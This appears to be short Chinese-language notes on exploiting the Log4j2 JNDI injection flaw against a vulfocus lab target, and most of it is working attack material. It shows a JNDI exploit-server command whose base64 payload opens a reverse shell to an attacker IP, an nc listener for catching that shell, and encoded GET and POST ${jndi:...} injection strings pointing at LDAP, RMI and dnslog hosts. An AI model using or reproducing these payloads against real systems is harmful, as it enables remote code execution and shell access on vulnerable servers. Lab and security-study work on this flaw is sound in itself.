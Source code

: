 需要拿去base64编码链接如下

https://www.jackson-t.ca/runtime-exec-payloads.html

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjIwMC4zLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 172.16.200.3

32.137.126.102

![image](img/log4j2-1.png)

`nc -lvnp 7777`

GET传输需要URL对`{}|:`编码

```
$%7bjndi%3Aldap%3A//htlii7.dnslog.cn/Axw%7d
```

POST传输

```
POST /hello HTTP/1.1
Host: vulfocus.fofa.so:30484
Content-Type: application/x-www-form-urlencoded

payload="${jndi:rmi://172.16.200.3:1099/cxat29}"
```

![image](img/log4j2-2.png)
